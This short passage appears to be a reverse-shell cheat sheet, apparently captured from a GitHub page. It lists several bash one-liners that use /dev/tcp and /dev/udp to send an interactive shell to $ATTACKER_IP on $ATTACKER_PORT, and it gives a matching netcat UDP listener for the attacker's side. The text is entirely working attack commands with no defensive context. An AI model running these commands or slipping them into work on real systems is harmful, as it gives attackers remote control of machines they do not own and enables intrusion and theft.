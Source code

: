 #### Bash TCP

```bash
bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1

0<&196;exec 196<>/dev/tcp/$ATTACKER_IP/$ATTACKER_PORT; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0<&1 2>&1
```

#### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/$ATTACKER_IP/$ATTACKER_PORT 0>&1

Listener:
nc -u -lvp $ATTACKER_PORT
```